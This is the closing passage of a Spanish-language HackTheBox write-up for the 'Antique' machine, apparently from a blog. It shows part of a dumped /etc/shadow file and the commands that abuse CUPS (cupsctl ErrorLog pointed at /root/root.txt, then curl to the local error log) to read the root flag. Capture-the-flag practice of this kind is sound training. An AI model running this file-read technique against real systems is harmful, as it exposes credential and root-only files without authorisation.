 ```bash
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

De la misma forma podemos acceder a la flag de root de la máquina

```bash
cupsctl ErrorLog="/root/root.txt"

lp@antique:/tmp$ curl http://localhost:631/admin/log/error_log
e82e5d4f14cc6b491***************
```

Hemos completado la máquina **Antique** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Antique/pwned.png">
